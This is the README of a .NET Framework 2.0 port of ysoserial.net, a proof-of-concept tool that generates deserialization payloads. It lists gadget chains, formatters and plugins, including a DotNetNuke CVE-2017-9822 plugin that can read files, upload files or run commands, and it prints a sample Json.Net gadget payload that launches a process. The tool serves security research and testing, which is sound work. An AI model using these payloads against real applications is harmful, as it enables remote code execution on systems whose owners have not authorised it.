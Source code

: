 # ysoserial.net for .NET Framework 2.0 with limitation
A proof-of-concept tool for generating payloads that exploit unsafe .NET object deserialization.

This a copy of [ysoserial.net](https://github.com/pwntester/ysoserial.net/) (15/03/2018) that has been changed to work with .NET Framework 2.0 by [irsdl](https://twitter.com/irsdl). 

*Limit:* Although this project can be used to exploit applications that use .NET Framework v2.0, it also requires .NET Framework 3.5 to be installed on the target box as the gadgets depend on it. This problem will be resolved if new gadgets in .NET Framework 2.0 become identified in the future.

## Description
ysoserial.net is a collection of utilities and property-oriented programming "gadget chains" discovered in common .NET libraries that can, under the right conditions, exploit .NET applications performing unsafe deserialization of objects. The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having gadgets on the classpath.

This project is inspired by [Chris Frohoff's ysoserial project](https://github.com/frohoff/ysoserial)

## Disclaimer 
This software has been created purely for the purposes of academic research and for the development of effective defensive techniques, and is not intended to be used to attack systems except where explicitly authorized. Project maintainers are not responsible or liable for misuse of the software. Use responsibly.

This software is a personal project and not related with any companies, including Project owner and contributors employers.

## Usage
```
$ ./ysoserial -h
ysoserial.net generates deserialization payloads for a variety of .NET formatters.

Available formatters:
	ActivitySurrogateSelectorFromFile (ActivitySurrogateSelector gadget by James Forshaw. This gadget interprets the command parameter as path to the .cs file that should be compiled as exploit class. Use semicolon to separate the file from additionally required assemblies, e. g., '-c ExploitClass.cs;./dlls/System.Windows.Forms.dll'.)
		Formatters:
			BinaryFormatter
			ObjectStateFormatter
			SoapFormatter
			LosFormatter
	ActivitySurrogateSelector (ActivitySurrogateSelector gadget by James Forshaw. This gadget ignores the command parameter and executes the constructor of ExploitClass class.)
		Formatters:
			BinaryFormatter
			ObjectStateFormatter
			SoapFormatter
			LosFormatter
	ObjectDataProvider (ObjectDataProvider Gadget by Oleksandr Mirosh and Alvaro Munoz)
		Formatters:
			Xaml
			Json.Net
			FastJson
			JavaScriptSerializer
			YamlDotNet < 5.0.0

Available plugins:
	altserialization (Generates payload for HttpStaticObjectsCollection or SessionStateItemCollection)
	ApplicationTrust (Generates XML payload for the ApplicationTrust class)
	Clipboard (Generates payload for DataObject and copy it into the clipboard - ready to be pasted in affected apps)
	DotNetNuke (Generates payload for DotNetNuke CVE-2017-9822)
	Resx (Generates RESX files)
	TransactionManagerReenlist (Generates payload for the TransactionManager.Reenlist method)

Usage: ysoserial_frmv2.exe [options]
Options:
  -p, --plugin=VALUE         the plugin to be used
  -o, --output=VALUE         the output format (raw|base64).
  -g, --gadget=VALUE         the gadget chain.
  -f, --formatter=VALUE      the formatter.
  -c, --command=VALUE        the command to be executed.
  -t, --test                 whether to run payload locally. Default: false
  -h, --help                 show this message and exit
```

*Note:* XmlSerializer and DataContractSerializer formatters generate a wrapper Xml format including the expected type on the "type" attribute of the root node, as used, for example, in DotNetNuke. You may need to modify the generated xml based on how XmlSerializer gets the expected type in your case.

## Plugins
*.NET v2 Note:* Currently all plugins rely on ActivitySurrogateSelectorFromFile and their command argument should follow its format e. g., '-c ExploitClass.cs;./dlls/System.Windows.Forms.dll'

Ysoserial.Net can be used to generate raw payloads or more complex ones using a plugin architecture. To use plugins, use `-p <plugin name>` followed by the plugin options (the rest of ysoserial.net options will be ignored). Eg:

```
$ ./ysoserial.exe -p DotNetNuke -m read_file -f win.ini
```

For more help on plugin options use `-h` along with `-p <plugin name>`. Eg:

```
$ ./ysoserial.exe -h -p DotNetNuke
ysoserial.net generates deserialization payloads for a variety of .NET formatters.

Plugin:

DotNetNuke (Generates payload for DotNetNuke CVE-2017-9822)

Options:

  -m, --mode=VALUE           the payload mode: read_file, upload_file, run_command.
  -c, --command=VALUE        the command to be executed in run_command mode.
  -u, --url=VALUE            the url to fetch the file from in write_file mode.
  -f, --file=VALUE           the file to read in read_file mode or the file to write to in write_file_mode.
```

## Examples

### Generate a **calc.exe** payload for Json.Net using *ObjectDataProvider* gadget.
```
$ ./ysoserial.exe -f Json.Net -g ObjectDataProvider -o raw -c "calc" -t
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd','/ccalc']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

## Contributing
- Fork it
- Create your feature branch (`git checkout -b my-new-feature`)
- Commit your changes (`git commit -am 'Add some feature'`)
- Push to the branch (`git push origin my-new-feature`)
- Create new Pull Request

## Thanks
Special thanks to all contributors:
- [irsdl](https://github.com/irsdl)
- [JarLob](https://github.com/JarLob)
- [DS-Kurt-Boberg](https://github.com/DS-Kurt-Boberg)
- [mwulftange](https://github.com/mwulftange)
- [yallie](https://github.com/yallie)
- [paralax](https://github.com/paralax)

## Additional Reading
- [Attacking .NET serialization](https://speakerdeck.com/pwntester/attacking-net-serialization)
- [Friday the 13th: JSON Attacks - Slides](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-Json-Attacks.pdf)
- [Friday the 13th: JSON Attacks - Whitepaper](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf)
- [Friday the 13th: JSON Attacks - Video(demos)](https://www.youtube.com/watch?v=ZBfBYoK_Wr0)
- [Are you my Type?](https://media.blackhat.com/bh-us-12/Briefings/Forshaw/BH_US_12_Forshaw_Are_You_My_Type_Slides.pdf)
- [Exploiting .NET Managed DCOM](https://googleprojectzero.blogspot.com.es/2017/04/exploiting-net-managed-dcom.html)

